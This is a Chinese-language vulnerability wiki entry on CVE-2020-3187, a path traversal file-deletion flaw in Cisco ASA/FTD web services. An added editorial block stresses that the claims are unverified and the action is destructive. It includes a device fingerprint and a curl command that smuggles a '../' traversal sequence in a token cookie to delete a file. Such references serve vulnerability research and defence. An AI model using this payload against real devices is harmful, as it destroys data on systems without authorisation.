




# Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Cisco ASA/FTD Web服务
- 本文讨论：CVE-2020-3187 session_password token路径穿越删除
- 版本、权限与配置前提：目标Web文件可写/可删除，版本表仅图
- 资料类型：ASA文件删除复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 访问session_password存在只属线索不是漏洞证明
- 正文泛称读取/系统敏感信息，但演示仅Web图标删除，OS文件范围未证明
- 实际删除有破坏性，不能作默认检测；缺官方来源

### 操作风险与恢复

- 文中删除动作会改变或移除账户/文件，可能中断业务；只在有可恢复快照的隔离环境核对前后状态

### 待核与来源

- 官方读取/删除范围、启用条件和截图待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

- Cisco ASA设备：


- Cisco FTD设备：





## 网络测绘

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞




例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif




使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```





成功删除图标


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
